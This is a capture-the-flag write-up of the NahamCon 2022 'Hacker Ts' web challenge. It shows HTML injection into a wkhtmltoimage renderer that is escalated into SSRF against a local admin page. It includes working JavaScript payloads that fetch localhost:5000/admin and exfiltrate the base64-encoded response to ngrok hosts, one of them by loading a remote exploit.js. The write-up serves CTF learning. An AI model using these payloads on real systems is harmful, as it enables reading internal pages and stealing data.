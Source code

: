 ```yaml
---
title: "Hacker Ts challenge writeup"
header:
  teaser: "/assets/images/CTFs/Flag.png"
tags: ["CTF", "html injection", "SSRF"]
date: 2022-05-02T12:49:18+34:08
toc: true
draft: false
categories:
  - Web Exploitation 
ribbon: red
---
```


Nahamcon ctf 2022 was held from the 28th of April Until the 30th of the month , and we have participated under the team 0xcha0s. this challenge idea was pretty new to me so it is helpful to document it in this writeup

<!--more-->

|           |                                               |
| --------- | --------------------------------------------- |
| CTF name  | [NahamconCTF 2022](https://www.nahamcon.com/) |
| challenge | Hacker Ts                                     |
| category  | web                                           |
| about     | HTML injection                                |
| team      | [0xCha0s](https://ctftime.org/team/168238)    |

we are introduced with this page , it can take a text as input and we can also specify the color

![error](/assets/images/CTFs/Hacker-Ts/20220430232105.png)

- and the output is :

![error](/assets/images/CTFs/Hacker-Ts/20220430232158.png)

- Also we can see the **Admin** tab above it shows the following :

![error](/assets/images/CTFs/Hacker-Ts/20220430232228.png)

- So our goal is to view the admin page , mentioning the `localhost:5000` should trigger you for SSRF most likely.

- We can try to inject html code and see if it gets rendered `<h1>test</h1>`

![error](/assets/images/CTFs/Hacker-Ts/20220430232530.png)

- and it worked indeed , we can try to execute some JS , start with `<script>alert(1);</script>` But it shows empty t-shirt
- we can try :

```html
<p id="test">aa</p>
<script>
  document.getElementById("test").innerHTML += window.location;
</script>
```

![error](/assets/images/CTFs/Hacker-Ts/20220430233020.png)

- we can try to trigger an error while processing to get more information with replacing `test` with `X`

![error](/assets/images/CTFs/Hacker-Ts/20220430233123.png)

- we got this error , we know it uses `wkhtmltoimage` to make the process , searching for it found the following articles :

- [Nahmasec](https://docs.google.com/presentation/d/1JdIjHHPsFSgLbaJcHmMkE904jmwPM4xdhEuwhy2ebvo/htmlpresent)
- [here](https://namratha-gm.medium.com/ssrf-to-local-file-read-through-html-injection-in-pdf-file-53711847cb2f)
- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)

- we can craft payloads to make it visit the admin page and view the response for us :

## Approach 1

```html
<h1 id="0xMesbaha"></h1>
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://localhost:5000/admin", false);
  xhr.send();
  document.getElementById("0xMesbaha").innerHTML = xhr.responseText;
</script>
```

the false in `xhr.open ` :

```bash
async parameter which is optional , If this value is false, the send() method does not return until the response is received.
```

![error](/assets/images/CTFs/Hacker-Ts/20220430234539.png)

## Approach 2

- we can also use other payload to take the response then send it to remote server :
- in the text input :

```html
<script>
  var xhr = new XMLHttpRequest();
  xhr.open("GET", "http://localhost:5000/admin");
  xhr.onload = function () {
    var flag = btoa(xhr.responseText);
    var exfil = new XMLHttpRequest();
    exfil.open("GET", "http://ee3f-156-194-180-190.ngrok.io/?flag=" + flag);
    exfil.send();
  };
  xhr.send();
</script>
```

![error](/assets/images/CTFs/Hacker-Ts/20220430235147.png)

- decode it :

![error](/assets/images/CTFs/Hacker-Ts/20220430235227.png)

## Approach 3

- we can also go to another approach , which is hosting `exploit.js` contains :

```javascript
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://localhost:5000/admin");
xhr.onload = function () {
  var flag = btoa(xhr.responseText);
  var exfil = new XMLHttpRequest();
  exfil.open("GET", "http://6ce0-156-194-180-190.ngrok.io/?flag=" + flag);
  exfil.send();
};
xhr.send();
```

- then on the text input use :

```html
<script src="http://6ce0-156-194-180-190.ngrok.io/exploit.js"></script>
```

- same output :

![error](/assets/images/CTFs/Hacker-Ts/20220430235602.png)
